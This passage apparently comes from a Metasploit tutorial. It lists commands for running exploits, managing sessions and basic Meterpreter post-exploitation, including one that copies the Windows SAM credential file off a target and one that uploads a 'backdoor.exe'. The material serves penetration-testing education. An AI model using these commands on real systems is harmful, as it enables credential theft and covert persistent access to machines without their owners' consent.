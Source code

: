 #### Running Exploits
```bash
# Check if target is vulnerable
check

# Run the exploit
exploit

# Run in background
exploit -j
```

#### Session Management
```bash
# List sessions
sessions -l

# Interact with a session
sessions -i 1

# Background current session
background

# Kill a session
sessions -k 1
```

### Meterpreter Basics

Meterpreter is an advanced payload that provides a command interpreter for post-exploitation.

#### System Commands
```bash
# Get system information
sysinfo

# Get current user
getuid

# Get privileges
getprivs

# List processes
ps

# Migrate to another process
migrate 1234
```

#### File System Commands
```bash
# Show current directory
pwd

# Change directory
cd C:\\Windows\\System32

# List files
ls

# Download a file
download C:\\Windows\\System32\\config\\SAM /home/kali/SAM

# Upload a file
upload /home/kali/backdoor.exe C:\\Windows\\backdoor.exe
```